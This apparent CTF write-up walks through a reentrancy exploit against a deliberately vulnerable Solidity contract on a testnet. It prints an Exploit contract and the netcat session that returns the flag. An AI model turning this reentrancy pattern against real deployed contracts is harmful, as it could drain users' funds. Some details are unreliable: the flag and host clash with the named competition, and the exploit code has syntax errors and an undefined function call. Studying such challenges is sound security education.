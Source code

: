 ```yaml
---
ctf: LakeCTF 2022
published: 2022-11-11
tags:
- Blockchain
title: Nile

---
```


Nile is the first of the two CTF challenges featured in the LakeCTF 2022.

The challenge is quite straightforward, we have a vulnerable contract deployed on the Goerli testnet

```Solidity
contract Nile {
    mapping(address => uint256) balance;
    mapping(address => uint256) redeemable;
    mapping(address => bool) accounts;

    event GetFlag(bytes32);
    event Redeem(address, uint256);
    event Created(address, uint256);
    
    function redeem(uint amount) public {
        require(accounts[msg.sender]);
        require(redeemable[msg.sender] > amount);

        (bool status, ) = msg.sender.call("");

        if (!status) {
            revert();
        }

        redeemable[msg.sender] -= amount;
        balance[msg.sender] += amount;
        emit Redeem(msg.sender, amount);
    }

    function createAccount() public {
        balance[msg.sender] = 0;
        redeemable[msg.sender] = 100;
        accounts[msg.sender] = true;

        emit Created(msg.sender, 100);
    }

    function deleteAccount() public {
        require(accounts[msg.sender]);
        balance[msg.sender] = 0;
        redeemable[msg.sender] = 0;
        accounts[msg.sender] = false;
    }

    function getFlag(bytes32 token) public {
        require(accounts[msg.sender]);
        require(balance[msg.sender] > 1000);

        emit GetFlag(token);
    }
}
```

In order to solve the challenge we need to triggere the `GetFlag` event

```Solidity
 function getFlag(bytes32 token) public {
        require(accounts[msg.sender]);
        require(balance[msg.sender] > 1000);

        emit GetFlag(token);
    }
```

It requires two basic conditions:

- being in the account mapping
- having more than 1000 cois

The first one is simply resolved by calling the `createAccount` method.  
For the second one we are theoretically limited to withdraw at most 100 coins, however we can see that the  
`redeem` function actually performs something weird:

```Solidity
(bool status, ) = msg.sender.call("");
```

it calls a function of the caller contract.

> [!important] With a quick google review it looks like the contract is vulnerable to reentrancy attacks.

What we need to do is to deploy another contract with a fallback method, and, when Nile calls our Exploit we call the redeem function 11 times.

```Solidity
  fallback() external {
      attack();
  }

  function attack() public {
			redeemed = redeemed + 1;
      if (redeemed > 11) { return; }
      targetContract.createAccount();
      targetContract.redeem(99);
      attack();        
  }
```

So the contract code perform the initial checks 11 times

```Solidity
require(accounts[msg.sender]);
require(redeemable[msg.sender] > amount);


(bool status, ) = msg.sender.call("");
// Loops again while Exploit.redeemed < 11
```

And then increase the credit 11 times again

```Solidity
// Executes 11 times after Exploit.redeemed >= 11
redeemable[msg.sender] -= amount;
balance[msg.sender] += amount;
emit Redeem(msg.sender, amount);
```

Putting everything together

```Solidity
contract Exploit {
    uint256 redeemed = 0;
    Nile targetContract;

    constructor (address targetAddress) public{
        targetContract = Nile(targetAddress);
				targetContract.createAccount();
        redeem(1);
    }

    function getFlag(bytes32 token) public {
        targetContract.getFlag(token));
    }

    function attack() public {
				redeemed = redeemed + 1;
        if (redeemed > 11) { return; }
        targetContract.createAccount();
        targetContract.redeem(99);
        attack();        
    }

    fallback() external {
        attack();
    }

}
```

We then use RemixIDE to upload the contract, insert the token, validate the flag and we are done!

```Bash
$ nc -v nile.chall.pwnoh.io 13379
> Connection to nile.chall.pwnoh.io port 13379 [tcp/*] succeeded!
> Hello! The contract is running at 0x7217bd381C35dd9E1B8Fcbd74eaBac4847d936af on the Goerli Testnet.
> Here is your token id: 0x0e5f322ff9c116bc51143a27b094276f
> Are you ready to receive your flag? (y/n)
$ y
> Here is the flag: buckeye{n0_s4fem4th_t1ll_s0l1d1ty_08}
```